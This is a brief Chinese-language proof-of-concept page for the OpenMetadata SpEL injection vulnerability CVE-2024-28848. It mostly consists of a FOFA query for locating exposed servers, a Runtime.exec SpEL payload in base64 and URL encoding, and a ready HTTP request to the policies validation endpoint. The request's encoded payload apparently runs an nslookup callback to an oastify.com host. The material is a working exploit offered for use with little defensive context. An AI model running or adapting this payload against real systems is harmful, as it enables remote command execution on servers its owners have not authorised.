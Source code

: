 ## OpenMetadata-SpEL注入(CVE-2024-28848)

只有经过身份验证的用户才能访问 /api/v1/policies, 未经身份验证的用户将无法访问这些 API 来利用此漏洞。用户必须存在于 OpenMetadata 中，并且已对自己进行身份验证才能利用此漏洞。

## fofa
```
icon_hash="733091897"
```

以 Base64 编码 

=>`touch /tmp/pwneddG91Y2ggL3RtcC9wd25lZA==`

运行系统命令的 

SpEL 表达式：`T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode("dG91Y2ggL3RtcC9wd25lZA==")))`

使用 URL 编码对有效负载进行编码：

```
%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%75%74%69%6c%2e%42%61%73%65%36%34%29%2e%67%65%74%44%65%63%6f%64%65%72%28%29%2e%64%65%63%6f%64%65%28%22%64%47%39%31%59%32%67%67%4c%33%52%74%63%43%39%77%64%32%35%6c%5a%41%3d%3d%22%29%29%29
```

## poc
```
GET /api/v1/policies/validation/condition/%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%75%74%69%6c%2e%42%61%73%65%36%34%29%2e%67%65%74%44%65%63%6f%64%65%72%28%29%2e%64%65%63%6f%64%65%28%22%62%6e%4e%73%62%32%39%72%64%58%41%67%61%58%70%73%4e%7a%45%33%62%33%42%69%62%57%52%79%5a%57%46%6f%61%33%4a%6f%63%44%4e%72%63%32%70%72%61%47%4a%75%4d%6d%4a%7a%65%6d%67%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%3d%22%29%29%29 HTTP/2
Host: sandbox.open-metadata.org
Authorization: Bearer <non-admin JWT>

```
